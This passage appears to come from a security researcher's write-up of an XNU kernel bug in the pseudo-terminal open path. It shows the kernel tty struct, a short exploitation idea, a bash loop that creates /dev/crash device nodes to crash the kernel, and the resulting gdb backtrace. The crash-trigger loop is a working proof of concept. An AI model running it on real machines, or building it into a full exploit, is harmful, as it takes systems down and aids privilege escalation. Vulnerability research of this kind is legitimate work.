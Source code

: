 ```c
   struct tty {
   	lck_mtx_t	t_lock;		/* Per tty lock */
   
   	struct	clist t_rawq;		/* Device raw input queue. */
   	long	t_rawcc;		/* Raw input queue statistics. */
   	struct	clist t_canq;		/* Device canonical queue. */
   	long	t_cancc;		/* Canonical queue statistics. */
   	struct	clist t_outq;		/* Device output queue. */
   	long	t_outcc;		/* Output queue statistics. */
   	int	t_line;			/* Interface to device drivers. */
   	dev_t	t_dev;			/* Device. */
   	int	t_state;		/* Device and driver (TS*) state. */
   	int	t_flags;		/* Tty flags. */
   	int     t_timeout;              /* Timeout for ttywait() */
   	struct	pgrp *t_pgrp;		/* Foreground process group. */
   	struct	session *t_session;	/* Enclosing session. */
   	struct	selinfo t_rsel;		/* Tty read/oob select. */
   	struct	selinfo t_wsel;		/* Tty write select. */
   	struct	termios t_termios;	/* Termios state. */
   	struct	winsize t_winsize;	/* Window size. */
   					/* Start output. */
   	void	(*t_oproc)(struct tty *);
   					/* Stop output. */
   	void	(*t_stop)(struct tty *, int);
   					/* Set hardware state. */
   	int	(*t_param)(struct tty *, struct termios *);
   	void	*t_sc;			/* XXX: net/if_sl.c:sl_softc. */
   	int	t_column;		/* Tty output column. */
   	int	t_rocount, t_rocol;	/* Tty. */
   	int	t_hiwat;		/* High water mark. */
   	int	t_lowat;		/* Low water mark. */
   	int	t_gen;			/* Generation number. */
   	void	*t_iokit;		/* IOKit management */
   	int	t_refcnt;		/* reference count */
   };
```

You can imagine all the power you could do if you can control all these structures carefully. That will be the difficulty when trying to exploit. You need to find a kernel zone past this array and allocate your data into it in a way you always know the offset. shouldn't be too hard.

Here's what the crash looks like once triggered.

```
   bash-3.2# for i in `seq 1 255`;do echo $i; mknod /dev/crash c 16 $i;echo "Hello" >/dev/crash;rm -rf /dev/crash;done
```

```
   gdb$ bt
   #0  0xffffff8024f35fbc in ptsd_open (dev=0x10000010, flag=0x402, devtype=0x2000, p=0xffffff803655a3f8) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/kern/tty_ptmx.c:571
   #1  0xffffff8024bdd93f in spec_open (ap=0xffffff8225cb3928) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/miscfs/specfs/spec_vnops.c:325
   #2  0xffffff8024bc43c9 in VNOP_OPEN (vp=0xffffff803809c110, mode=0x402, ctx=0xffffff8035bcdd08) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/vfs/kpi_vfs.c:3015
   #3  0xffffff8024bb4eab in vn_open_auth (ndp=0xffffff8225cb3b70, fmodep=0xffffff8225cb3adc, vap=0xffffff8225cb3d08) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/vfs/vfs_vnops.c:591
   #4  0xffffff8024b9d8db in open1 (ctx=0xffffff8035bcdd08, ndp=0xffffff8225cb3b70, uflags=0x601, vap=0xffffff8225cb3d08, fp_zalloc=0xffffff8024ecf0b0 <fileproc_alloc_init>, cra=0x0, retval=0xffffff8035bcdc18) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/vfs/vfs_syscalls.c:3067
   #5  0xffffff8024b9e684 in open_nocancel (p=0xffffff803655a3f8, uap=0xffffff8035c3a920, retval=0xffffff8035bcdc18) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/vfs/vfs_syscalls.c:3345
   #6  0xffffff8024b9e4fc in open (p=0xffffff803655a3f8, uap=0xffffff8035c3a920, retval=0xffffff8035bcdc18) at /SourceCache/xnu_debug/xnu-2422.1.72/bsd/vfs/vfs_syscalls.c:3326
```